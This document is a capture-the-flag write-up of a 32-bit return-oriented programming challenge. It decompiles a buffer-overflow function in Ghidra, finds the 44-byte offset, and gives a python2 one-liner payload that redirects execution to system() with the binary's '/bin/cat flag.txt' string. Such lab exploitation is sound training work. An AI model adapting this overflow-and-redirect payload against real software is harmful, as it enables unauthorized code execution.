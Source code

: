## Write-up:
Like in challenge 1, the `NX` bit is set, and there some interesting function names:
![[Pasted image 20231215174011.png]]
Namely, `usefulFunction` and `pwnme`.
From Ghidra, `pwnme` looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_2c,0x60);
  puts("Thank you!");
  return;
}
```
It contains a buffer overflow vulnerability.
And `usefulFunction` looks like:
```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```
This *is* useful, as it has a call to `system()`, however it does not execute `/bin/cat flag.txt`, which is the goal. So I will need more in order to use this.
Some further recon in Ghidra reveals the exact string I need exists in the binary:
![[Pasted image 20231215174807.png]]
So if I can pass this the the `system()` call in `usefulFunction` and get it to execute I win.
In the disassembly, I can see that the parameter is pushed onto the stack right before `system` is called:
![[Pasted image 20231215175626.png]]
So I just need the address of the  `/bin/cat flag.txt` string to be on the top of the stack when `system` is called. 
Now to create a payload, I need the offset of the return address from the buffer start.
![[Pasted image 20231215175959.png]]
The offset is the same as in Challenge 1, 44 bytes.
So the payload will be of the form:
```
(44 bytes of junk) + (address of call to system()) + (address of usefulString)
```
```bash
python2 -c 'print "\x00"*44 + "\x1a\x86\x04\x08" + "junk" + "\x30\xa0\x04\x08"' > payload.txt
```
![[Pasted image 20231215180605.png]]
As shown in the above picture, using this payload, the exploit was successful and the flag was printed.